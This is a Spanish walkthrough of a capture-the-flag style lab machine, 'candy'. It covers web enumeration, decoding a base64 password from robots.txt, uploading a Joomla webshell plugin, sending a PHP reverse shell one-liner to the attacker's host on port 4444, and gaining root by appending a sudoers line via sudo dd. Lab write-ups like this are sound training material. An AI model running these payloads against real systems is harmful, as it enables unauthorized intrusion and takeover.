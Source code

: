 ```yaml
---
Maquina: candy
SO: Linux
Explotación: Análisis web (LFI) Y Fuerza Bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - LFI
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241113084503.png]]

Tal y como se aprecio tan solo tenemos el puerto 80 activo, así que vamos a tener que realizar un descubrimiento web exhaustivo. Vamos a seguir el mismo procedimiento de siempre, el panel principal es el siguiente ->

![[Pasted image 20241113090859.png]]

1. Vamos a analizar el código fuente de la web en busca de comentarios.
	1. No parece haber nada de interés.
2. Vamos a intentar pasar un firb o un gobuster para listar los subdirectorios.
	1. Resulta que la web da todo códigos 200 pero sin información aparente con dirb. En cambio con gobuster y si filtramos por webs con código 200 si que tendremos cosas interesante

```bash
gobuster dir -u http://172.17.0.2 -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,py,js,txt -s 200 -b ""
```

![[Pasted image 20241113090736.png]]

Y fijaos que mensaje más curioso hay en robots.txt ->

![[Pasted image 20241113090755.png]]

Nos acaban de dar el siguiente usuario -> admin:c2FubHVpczEyMzQ1. Si vamos a probarlo en el panel de login de la página principal nos dará fallo, y si nos fijamos un poco más en la passwd...

admin:c2FubHVpczEyMzQ1 -> Base64 decode -> admin:sanluis12345

![[Pasted image 20241113093005.png]]

Estamos dentro, pero hay poca información como tal.

Pero también parece que en el robots.txt no quiere que vayamos al /administrator/...

![[Pasted image 20241113091509.png]]

Parece otro panel de login... Sospechoso... y si probramos las mismas credenciales...

![[Pasted image 20241113092948.png]]

Esto me gusta mucho más, vamos a probar a modificar el index de la página principal y añadir un reverse shell y ver si podemos intentar conectarlos a la máquina.

Para ello vamos a utilizar este repositorio de git que explica como subir un plugin malicioso -> https://github.com/p0dalirius/Joomla-webshell-plugin?tab=readme-ov-file

Y ahora podemos tener ejecución de comandos de la víctima.

![[Pasted image 20241113142832.png]]

Si le pasamos el siguiente comando por url podremos mandar una petición de conexión a nuestro ordenador ->

```bash
php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

Y con eso tendremos acceso al host ->

![[Pasted image 20241113143005.png]]

Ahora toca el tratamiento de la tty y ver los permisos que tenemos ;)

Investigando un poco me he dispuesto a buscar por el sistema el nombre de luisillo y he encontrado lo siguiente ->

```bash
find / -user luisillo 2>/dev/null
```

![[Pasted image 20241113144912.png]]

Y parece que tenemos algo interesante ->

![[Pasted image 20241113144928.png]]

```bash
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
```

![[Pasted image 20241113145000.png]]

Parece que si que funciona ;)

![[Pasted image 20241113145126.png]]

Parece que tenemos permisos para escribir en cualquier archivo... hmmmmm...

```bash
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Con esto nos podemos dar todos los permisos del mundo a luisillo jijiji.

![[Pasted image 20241113150006.png]]

Y otra máquina completada ;)